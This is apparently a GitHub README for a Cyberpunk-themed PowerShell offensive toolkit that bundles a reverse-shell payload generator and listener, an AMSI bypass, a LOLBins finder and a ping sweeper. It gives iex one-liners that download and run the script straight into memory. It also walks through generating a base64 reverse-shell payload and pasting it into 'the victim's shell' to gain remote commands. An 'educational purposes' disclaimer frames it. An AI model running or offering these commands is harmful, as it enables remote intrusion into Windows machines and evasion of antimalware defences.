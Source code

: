 <div align="center" style="display:flex;">
  <img src="https://github.com/h0ru/antiarasaka/assets/117091833/c5e7af4a-d7b7-484e-be27-ea9fbed97749" width="800">
</div>

- - - 

> [!Warning]
> **This program was written and designed for educational purposes, with features associated with the world of Cyberpunk 2077.** \
> **The project's author does not take responsibility for any use of the tool and maintains its use strictly for educational purposes.**

- - -

> [!NOTE] 
> **This project explores ideas that have already been developed in my previous projects, but it was created to optimize and also motivate me to create something larger.**\
> **Being a fan of the Cyberpunk 2077 story, I sought inspiration in "something" that could counter Arasaka. So here is the idea: AntiArasaka T00l K1t.**

- - -

### What will you find here?

```
aka.ps1
├──AntiArasaka-Alias               # Similar to Get-Alias
├──AntiArasaka-Help                # Similar to Get-Help
├──LOLBins Finder             
|  └──AntiArasaka-Binaries         # Based on LOLBAS Projetct
├──Generator RevShell & Listener           
|  ├──AntiArasaka-Listener         # Native powershell listener
|  └──AntiArasaka-Payload          # PowerShell paylaod base64 encoded
├──AMSI-Reaper
|  └──AntiArasaka-Reaper           # Based on my project AMSI-Reaper
└──PSWEEPX
   └──AntiArasaka-Sweep            # Based on my project PSWEEPX from icmp-quickhacks
```

- - -

### How to use?

> [!TIP]
> #### _Less DISK, more RAM_
```
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1')
```
```
iex (iwr https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```
```
iex (irm https://raw.githubusercontent.com/h0ru/antiarasaka/main/aka/aka.ps1)
```

> [!TIP]
> #### _Use the aliases_
```
        Command                          Alias
        -------                          ------
        AntiArasaka-Alias          ->     aaa
        AntiArasaka-Help           ->     aah
        AntiArasaka-Binaries       ->     aab
        AntiArasaka-Listener       ->     aal
        AntiArasaka-Payload        ->     aap
        AntiArasaka-Reaper         ->     aar
        AntiArasaka-Sweep          ->     aas
```

> [!TIP]
> #### _What is the purpose of the AntiArasaka-Binaries?_
- Based on the concept of the 198 exploits cataloged at: https://lolbas-project.github.io, I wanted to create a small validator using PowerShell, just a way to verify what we have in the current system that can be used as LOLBINS.
- Good references to LOLBINS: [The LOLBAS Project](https://mitre-attack.github.io/attack-navigator/#layerURL=https://lolbas-project.github.io/mitre_attack_navigator_layer.json)
- How to use AntiArasaka-Binarie.:
```
AntiArasaka-Binarie
AntiArasaka-Binarie -Filter .exe, .dll, .ps1
AntiArasaka-Binarie -Filter .vbs
AntiArasaka-Binarie -Name cmd.exe
AntiArasaka-Binarie -Name .bat
AntiArasaka-Binarie -Name winrm.vbs
```

> [!TIP]
> #### _How to use AntiArasaka-Listener & AntiArasaka-Payload_
- Attention to these errors:
![image](https://github.com/h0ru/antiarasaka/assets/117091833/63e1ed73-2629-4a2d-87a0-ec7b388d5e34)
![image](https://github.com/h0ru/antiarasaka/assets/117091833/75af46c3-5875-4986-8a73-32b1e849fc49)
```
1. aap -i 192.168.1.1 -p 443 #Payload
2. aal -i 192.168.1.3 -p 443 #Listener
3. [+] Payload copied to clipboard! Use Ctrl+V to paste and execute.
4. Paste your payload into the victim's shell (Consider hosting the shell on a file and requesting it remotely)
5. [AAK-PShell]:> whoami 
```

- - -

> [!IMPORTANT]
> - [❗] More updates will come and Anti-Arasaka will have more features!
> - [❗] Did you like the idea and the work? Show your support with a ⭐ to stay updated.
> - [❗] If you're interested in helping or sharing your opinion, reach out to me through public channels or on Discord at **ph4nt0m.zip**.

- - - 

